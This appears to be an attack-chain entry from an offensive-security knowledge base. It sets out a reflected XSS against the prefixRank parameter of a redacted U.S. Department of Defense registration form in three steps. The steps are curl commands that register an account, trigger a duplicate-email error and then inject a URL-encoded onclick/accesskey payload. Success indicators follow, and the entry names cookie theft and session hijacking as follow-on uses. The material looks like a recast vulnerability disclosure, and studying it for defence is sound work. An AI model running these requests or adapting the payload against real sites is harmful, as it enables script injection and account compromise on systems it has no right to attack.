

---
tags:
  - xss
  - reflected-xss
  - web-vulnerability
  - script-injection
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Perform-Initial-Registration]]'
  - '[[procedures/Trigger-Duplicate-Email-Error]]'
  - '[[procedures/Inject-XSS-Payload-into-PrefixRank]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-14T03:47:12.922Z'
description: >-
  A multi-step attack exploiting insufficient input sanitization in the
  prefixRank parameter of a DoD website's registration form, enabling reflected
  XSS for script execution in the victim's browser.
skill_level: intermediate
impact_level: high
id: 7517aae9-8ac3-4702-8519-0663ee57faaa
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Reflected XSS in DoD Customer Registration Form Leading to Arbitrary Script Execution

Multi-stage attack chain demonstrating exploitation of a reflected XSS vulnerability in the U.S. Department of Defense website's customer registration form at www.████.gov. The attack leverages unsanitized user input in the 'prefixRank' parameter during duplicate email registration attempts, allowing injection of JavaScript payloads that execute in the victim's browser. This can result in session hijacking, cookie theft, unauthorized requests, malware distribution, and site defacement.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or proxy tool like Burp Suite for request manipulation

### Target Environment

- Web platform (ColdFusion/Java-based application)
- Access to the registration endpoint: POST /ioss/site/customer.cfm
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Public access to the website (no authentication needed for registration attempt)
- Ability to submit HTTP POST requests
- Valid email address for initial registration

## Detailed Attack Procedures

### Step 1: Initial Registration
procedure: [[procedures/Perform-Initial-Registration]]

**Objective**: Establish a baseline registration to enable subsequent duplicate attempts that trigger input reflection.

**Instructions**: Submit a standard registration form to create an account with a valid email address. Use a tool like curl or a browser to POST the required fields to the endpoint.

Execute [[commands/submit-initial-registration-curl]] to perform the registration:

```bash
curl -X POST https://www.████.gov/ioss/site/customer.cfm \
  -d "email=user@example.com" \
  -d "prefixRank=Mr" \
  -d "firstName=Test" \
  -d "lastName=User" \
  --data-urlencode "other fields as required"
```

**Expected Output**: Successful registration confirmation, with the email now registered in the system.

**Success Indicators**:
- HTTP 200 response with success message
- Email address is now associated with an account

### Step 2: Trigger Duplicate Email Error
procedure: [[procedures/Trigger-Duplicate-Email-Error]]

**Objective**: Resubmit the form with the same email to provoke an error message that reflects user input without sanitization.

**Instructions**: Replay the registration request using the identical email address to force the error condition. This step confirms the reflection point in the error response.

Execute [[commands/submit-duplicate-registration-curl]] to trigger the error:

```bash
curl -X POST https://www.████.gov/ioss/site/customer.cfm \
  -d "email=user@example.com" \
  -d "prefixRank=Mr" \
  -d "firstName=Test" \
  -d "lastName=User" \
  --data-urlencode "other fields as required"
```

**Expected Output**: Error message in the response, such as "this email address already exists in the system", with the prefixRank value echoed back unsanitized.

**Success Indicators**:
- Error response containing reflected input (e.g., prefixRank value visible in HTML)
- No new account created

### Step 3: Inject and Execute XSS Payload
procedure: [[procedures/Inject-XSS-Payload-into-PrefixRank]]

**Objective**: Modify the request to inject a JavaScript payload into the reflected parameter, leading to arbitrary code execution upon error rendering.

**Instructions**: Alter the prefixRank parameter in the duplicate registration POST request to include a malicious payload that breaks out of the HTML context and executes JavaScript. URL-encode the payload to bypass basic filters.

Execute [[commands/inject-xss-payload-curl]] to submit the malicious request:

```bash
curl -X POST https://www.████.gov/ioss/site/customer.cfm \
  -d "email=user@example.com" \
  -d "prefixRank=ryp3i%22accesskey%3d%22x%22onclick%3d%22alert(1)%22%2f%2fopk15" \
  -d "firstName=Test" \
  -d "lastName=User" \
  --data-urlencode "other fields as required"
```

**Expected Output**: Error page loads with the payload executed, e.g., an alert(1) dialog pops up in the browser, confirming XSS.

**Success Indicators**:
- JavaScript execution (e.g., alert box appears)
- Inspect response HTML to see unescaped payload

## Attack Chain Summary

### Key Achievements

1. Successful identification of input reflection in error handling
2. Injection and execution of arbitrary JavaScript in the context of the victim's session
3. Potential for follow-on impacts like cookie theft or session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
